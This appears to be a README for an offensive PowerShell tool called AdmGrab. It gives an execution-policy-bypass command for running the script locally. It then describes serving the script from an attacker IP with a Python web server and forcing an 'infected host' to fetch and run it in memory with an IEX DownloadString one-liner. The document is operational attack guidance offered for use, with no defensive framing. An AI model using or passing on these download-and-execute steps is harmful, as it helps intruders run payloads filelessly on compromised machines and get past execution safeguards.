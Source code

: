 # AdmGrab

## Local Execution
For execution from file, use
`powershell.exe -ExecutionPolicy ByPass -File AdmGrab.ps1`

## Remote Execution
To enforce execution in memory start a python webserver in the folder the AdmGrab.ps1 is located
```
pyton -m SimpleHTTPServer 8080
```

Suppose you are on IP 10.0.0.1, now force the infected host to run the following command
```
powershell.exe "IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.1:8080/AdmGrab.ps1')"
```
